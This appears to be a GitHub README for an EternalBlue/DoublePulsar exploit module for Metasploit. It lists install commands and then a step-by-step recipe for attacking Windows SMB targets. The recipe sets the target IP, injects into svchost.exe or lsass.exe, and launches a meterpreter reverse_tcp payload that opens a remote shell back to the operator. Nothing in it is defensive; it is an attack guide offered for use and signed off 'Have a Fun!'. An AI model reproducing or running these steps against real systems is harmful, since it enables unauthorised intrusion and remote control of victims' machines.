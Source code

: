 # Eternalblue-Doublepulsar-Metasploit

# How to Install

- dpkg --add-architecture i386 && apt-get update -y && apt-get install wine32 -y
- git clone https://github.com/grglzrv/Eternalblue-Doublepulsar-Metasploit.git
- cd Eternalblue-Doublepulsar-Metasploit
- cp eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb

Note !!!: Also copy 'deps' directory to /usr/share/metasploit-framework/modules/exploits/windows/smb

- mkdir -p /root/.wine/drive_c/

# How to use

- service postgresql start
- service postgresql enable
- msfconsole
- reload_all 
- use exploit/windows/smb/eternalblue_doublepulsar
- show options

 * For Windows x64 

-  RHOST (Target IP)
 - set PROCESSINJECT svchost.exe or set PROCESSINJECT lsass.exe
 - set TARGETARCHITECTURE x64
 - set payload windows/x64/meterpreter/reverse_tcp
 - set LHOST (Local IP, check it with 'ip a')
 - show targets
 - set target 8
 - run or exploit
 
 * For Windows x86

 - set RHOST (Target IP)
 - set PROCESSINJECT svchost.exe or set PROCESSINJECT explorer.exe
 - set TARGETARCHITECTURE x86
 - set payload windows/meterpreter/reverse_tcp
 - set LHOST (Local IP, check it with 'ip a')
 - show targets
 - set target 8
 - run or exploit
 
 # Have a Fun! :)
